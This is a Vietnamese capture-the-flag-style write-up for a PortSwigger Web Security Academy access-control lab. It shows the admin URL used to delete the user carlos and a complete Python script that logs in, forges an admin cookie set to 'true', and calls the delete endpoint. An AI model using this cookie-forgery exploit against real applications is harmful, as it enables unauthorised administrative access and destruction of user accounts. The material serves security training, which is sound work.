 mình xóa người dùng carlos qua url:

```
/admin/delete?username=carlos
```

![image](https://hackmd.io/_uploads/By9SrFjt6.png)

mình cũng đã viết lại script khai thác:

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0afb000a045363888427b84d00ff0091.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/login',
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf': csrf,
    'username': 'wiener',
    'password': 'peter',
}

response = session.post(
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False,
)

admin = response.headers['Set-Cookie'].split(';')[0].split('=')[0]
session = response.headers['Set-Cookie'].split(';')[2].split('=')[1]

cookies = {
    admin : 'true',
    'session': session
}

params = {
    'username': 'carlos',
}

response = requests.get(
    url + '/admin/delete',
    params=params,
    cookies=cookies,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```